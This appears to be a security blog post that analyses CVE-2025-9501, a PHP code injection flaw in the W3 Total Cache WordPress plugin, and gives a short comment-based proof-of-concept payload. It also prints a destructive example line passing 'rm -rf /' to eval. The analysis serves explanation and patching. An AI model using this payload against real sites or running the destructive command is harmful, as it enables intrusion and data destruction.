

# CVE-2025-9501 Analysis & POC


<!--more-->

## CVE & Basic Info

The WordPress W3 Total Cache plugin prior to version 2.8.13 has a command injection vulnerability via the `_parse_dynamic_mfunc` function, allowing unauthenticated users to execute PHP commands by submitting a comment with a malicious payload.

* **CVE ID**: [CVE-2025-9501](https://www.cve.org/CVERecord?id=CVE-2025-9501)
* **Vulnerability Type**: PHP Object Injection
* **Affected Versions**: <= 2.8.12
* **Patched Versions**: 2.8.13
* **CVSS severity**: High (9)
* **Required Privilege**: Unauthenticated
* **Product**: [WordPress W3 Total Cache Plugin](https://wordpress.org/plugins/w3-total-cache/)

## Requirements

* **Local WordPress & Debugging**

  * [Virtual Machine](https://w41bu1.github.io/posts/2025-08-21-wordpress-local-and-debugging/)
  * [Docker](https://w41bu1.github.io/posts/2025-10-22-wordpress-local-and-debugging-docker/)
* **Plugin Version** - **W3 Total Cache**:

  * `2.8.12` – **vulnerable**
  * `2.8.13` – **patched**
* **Diff Tool (diff)** → [**Meld**](https://meldmerge.org/) or any diff tool.

## Cause

The vulnerability originates from the `_parse_dynamic_mfunc` function:

```php {title="PgCache_ContentGrabber.php v2.8.12" data-open=true hl_lines=[11]}
public function _parse_dynamic_mfunc( $matches ) {
    $code1 = trim( $matches[1] );
    $code2 = trim( $matches[2] );
    $code  = ( $code1 ? $code1 : $code2 );

    if ( $code ) {
        $code = trim( $code, ';' ) . ';';

        try {
            ob_start();
            $result = eval( $code );
            $output = ob_get_contents();
            ob_end_clean();
        } catch ( \Exception $ex ) {
            $result = false;
        }

        if ( false === $result ) {
            $output = sprintf( 'Unable to execute code: %s', htmlspecialchars( $code ) );
        }
    } else {
        $output = htmlspecialchars( 'Invalid mfunc tag syntax. The correct format is: <!-- W3TC_DYNAMIC_SECURITY mfunc PHP code --><!-- /mfunc W3TC_DYNAMIC_SECURITY --> or <!-- W3TC_DYNAMIC_SECURITY mfunc -->PHP code<!-- /mfunc W3TC_DYNAMIC_SECURITY -->.' );
    }

    return $output;
}
```

The `eval()` function at line 11 is very dangerous as it executes a string as PHP code. Example:

```php
$command = 'system("rm -rf /")';
eval($command);
```

## Analysis

When the plugin is installed and activated, it adds to the top of `wp-config.php`:

```php
<?php
/** Enable W3 Total Cache */
define('WP_CACHE', true); // Added by W3 Total Cache
...
```

This registers caching for WordPress. `WP_CACHE` is used in `wp-settings.php`:

```php {title="wp-settings.php" data-open=true hl_lines=[3]}
if ( WP_CACHE && apply_filters( 'enable_loading_advanced_cache_dropin', true ) && file_exists( WP_CONTENT_DIR . '/advanced-cache.php' ) ) {
	include WP_CONTENT_DIR . '/advanced-cache.php';
	if ( $wp_filter ) {
		$wp_filter = WP_Hook::build_preinitialized_hooks( $wp_filter );
	}
}
```

WordPress automatically loads `advanced-cache.php` if it exists. When activated, the plugin creates this file:

```php {title="advanced-cache.php" data-open=true hl_lines=[40,42]}
<?php
defined( 'ABSPATH' ) || die();
global $w3tc_start_microtime;
$w3tc_start_microtime = microtime( true );

if ( defined( 'WP_INSTALLING' ) && WP_INSTALLING ) return;

if ( ! defined( 'W3TC_IN_MINIFY' ) ) {
	if ( ! defined( 'W3TC_DIR' ) ) {
		define( 'W3TC_DIR', ( defined( 'WP_PLUGIN_DIR' ) ? WP_PLUGIN_DIR : WP_CONTENT_DIR . '/plugins' ) . '/w3-total-cache' );
	}

	if ( ! @is_dir( W3TC_DIR ) || ! file_exists( W3TC_DIR . '/w3-total-cache-api.php' ) ) {
		if ( defined( 'WP_ADMIN' ) ) {
			printf( '<strong>W3 Total Cache Error:</strong> some files appear to be missing or out of place. Please re-install plugin or remove <strong>%s</strong>. <br />', __FILE__ );
		}
	} else {
		require_once W3TC_DIR . '/w3-total-cache-api.php';
		if ( class_exists( '\W3TC\Dispatcher' ) ) {
			$w3tc_redirect = \W3TC\Dispatcher::component( 'Mobile_Redirect' );
			$w3tc_redirect->process();

			$w3tc_config = \W3TC\Dispatcher::config();
			if ( $w3tc_config->get_boolean( 'pgcache.enabled' ) ) {
				$o = \W3TC\Dispatcher::component( 'PgCache_ContentGrabber' );
				$o->process();
			}
		}
	}
}
```

When page cache (`pgcache`) is enabled, `$o->process()` handles page cache logic.



In `process()`, the plugin prepares a mechanism to intercept page content before sending it to the browser:

```php {title="PgCache_ContentGrabber.php v2.8.12" data-open=true hl_lines=[5]}
public function process() {
    $this->run_extensions_dropin();
    ...
    Util_Bus::add_ob_callback( 'pagecache', array( $this, 'ob_callback' ) );
}
```

This registers a callback:

```php {title="PgCache_ContentGrabber.php v2.8.12" data-open=true hl_lines=[5]}
Util_Bus::add_ob_callback( 'pagecache', array( $this, 'ob_callback' ) );
```

Meaning:

* Plugin registers a callback named `pagecache`.
* The callback is the `ob_callback` method of the current object.
* This is executed **after WordPress generates the full HTML**, allowing the plugin to process it (optimize, compress, cache) before sending it to the client.

`add_ob_callback()` simply stores the callback:

```php {title="Util_Bus.php v2.8.12" data-open=true hl_lines=[2]}
public static function add_ob_callback( $key, $callback ) {
    $GLOBALS['_w3tc_ob_callbacks'][ $key ] = $callback;
}
```

`ob_callback()` is triggered when the output buffer is flushed, checking for dynamic content:

```php {title="PgCache_ContentGrabber.php v2.8.12" data-open=true hl_lines=[3,6,14]}
public function ob_callback( $buffer ) {
    ...
    $has_dynamic = $this->_has_dynamic( $buffer );
    ...
    if ( $has_dynamic ) {
        $this->_shutdown_buffer = $buffer;
        $buffer = '';
        register_shutdown_function(array($this, 'shutdown'));
    }
    return $buffer;
}
```

1. `$buffer` contains the full HTML WordPress generated.
2. `_has_dynamic()` checks for non-cacheable sections:

```php
public function _has_dynamic( $buffer ) {
    if ( ! defined( 'W3TC_DYNAMIC_SECURITY' ) ) return false;
    return preg_match(
        '~<!--\s*m(func|clude)\s*' . W3TC_DYNAMIC_SECURITY . '(.*)-->(.*)<!--\s*/m(func|clude)\s*' . W3TC_DYNAMIC_SECURITY . '\s*-->~Uis',
        $buffer
    );
}
```

Dynamic content format:

```php
<!-- mfunc{W3TC_DYNAMIC_SECURITY_VALUE} --> PHP code <!-- /mfunc{W3TC_DYNAMIC_SECURITY_VALUE} -->
or
<!-- mclude{W3TC_DYNAMIC_SECURITY_VALUE} --> PHP code <!-- /mclude{W3TC_DYNAMIC_SECURITY_VALUE} -->
```

3. If no dynamic content → return buffer directly to cache.
4. If dynamic content:

   * Save full HTML to `_shutdown_buffer`
   * Return empty string temporarily
   * Register `shutdown()` to process after PHP request finishes

```php {title="PgCache_ContentGrabber.php v2.8.12" data-open=true hl_lines=[5]}
public function shutdown() {
    $compression = $this->_page_key_extension['compression'];
    $buffer = $this->_parse_dynamic( $this->_shutdown_buffer );
    $compressed_buffer = $this->_compress( $buffer, $compression );
    echo $compressed_buffer;
}
```

`shutdown()` calls `_parse_dynamic()` to process dynamic HTML blocks and replace them with executed results:

```php {title="PgCache_ContentGrabber.php v2.8.12" data-open=true hl_lines=[7,10]}
public function _parse_dynamic( $buffer ) {
    if ( ! defined( 'W3TC_DYNAMIC_SECURITY' ) ) return $buffer;
    $buffer = preg_replace_callback('~<!--\s*mfunc\s*' . W3TC_DYNAMIC_SECURITY . '(.*)-->(.*)<!--\s*/mfunc\s*' . W3TC_DYNAMIC_SECURITY . '\s*-->~Uis',
        array($this, '_parse_dynamic_mfunc'), $buffer);
    $buffer = preg_replace_callback('~<!--\s*mclude\s*' . W3TC_DYNAMIC_SECURITY . '(.*)-->(.*)<!--\s*/mclude\s*' . W3TC_DYNAMIC_SECURITY . '\s*-->~Uis',
        array($this, '_parse_dynamic_mclude'), $buffer);
    return $buffer;
}
```

Each matched block is replaced by the executed content, ready for compression and output.

## Flow


graph TD

A["User requests any front‑end page (unauthenticated)"]
--> B["WordPress loads wp-settings.php"]
B --> C["WP_CACHE = true → Load advanced-cache.php"]
C --> D["advanced-cache.php runs Dispatcher"]
D --> E["PgCache_ContentGrabber->process()"]
E --> F["Util_Bus::add_ob_callback('pagecache', 'ob_callback')"]
F --> G["WordPress renders full HTML into output buffer"]
G --> H["ob_callback($buffer) triggered"]
H --> I{"_has_dynamic($buffer) ?"}
I -->|No| J["Return buffer as-is → Serve cached page"]
I -->|Yes| K["Save buffer to _shutdown_buffer"]
K --> L["register_shutdown_function(shutdown)"]
L --> M["After request completes → shutdown()"]
M --> N["_parse_dynamic(_shutdown_buffer)"]
N --> O{"HTML contains <!-- mfunc ... --> ?"}
O -->|Yes| P["_parse_dynamic_mfunc()"]
P --> Q["Extract payload from comment and run eval()"]
O -->|Or mclude| R["_parse_dynamic_mclude() (include type)"]
Q --> S["Output replaced with execution result"]
R --> S
S --> T["Page optionally compressed"]
T --> U["echo back to user"]


## Proof of Concept (PoC)

1. Install and activate the plugin.
2. Enable Page Cache.
3. Configure `W3TC_DYNAMIC_SECURITY` in `wp-config.php`.
4. Comment on any post:

```php
<!-- mfuncvalue -->phpinfo();<!-- /mfuncvalue -->
```


# Conclusion

CVE-2025-9501 arises because W3 Total Cache executes PHP in “dynamic fragment caching” (`<!-- mfunc ... -->`) via `eval()` without any validation or sandboxing. This allows unauthenticated attackers to inject PHP code that runs during `shutdown()`, after WordPress completes the main request, leading to Remote Code Execution (RCE). The risk is heightened because cache and output handling occur outside normal WordPress lifecycle, bypassing hooks, nonces, and access checks. Version 2.8.13 removes the `eval()` call, fixing the vulnerability.

# Key Takeaways

* Using `eval()` in production code almost always results in RCE if input is uncontrolled.
* The plugin processes dynamic content **after the full WordPress lifecycle**, bypassing many core protections.
* W3TC Page Fragment Caching allows PHP execution from HTML comments; misconfiguration or missing validation enables attacks.
* RCE triggers in `register_shutdown_function()`, executing at the end of the request, making detection harder.
* Immediate plugin update is mandatory for systems using <= 2.8.12.
* Avoid `eval()` in PHP unless strictly sandboxed and validated.

## References

[Command Injection](https://book.hacktricks.wiki/en/pentesting-web/command-injection.html)

[WordPress W3 Total Cache Plugin < 2.8.13 is vulnerable to Remote Code Execution (RCE)](https://patchstack.com/database/wordpress/plugin/w3-total-cache/vulnerability/wordpress-w3-total-cache-plugin-2-8-13-unauthenticated-command-injection-vulnerability)


---

> Author: [Bui Van Y](github.com/w41bu1)  
> URL: http://localhost:1313/posts/2025-11-22-cve-2025-9501/  

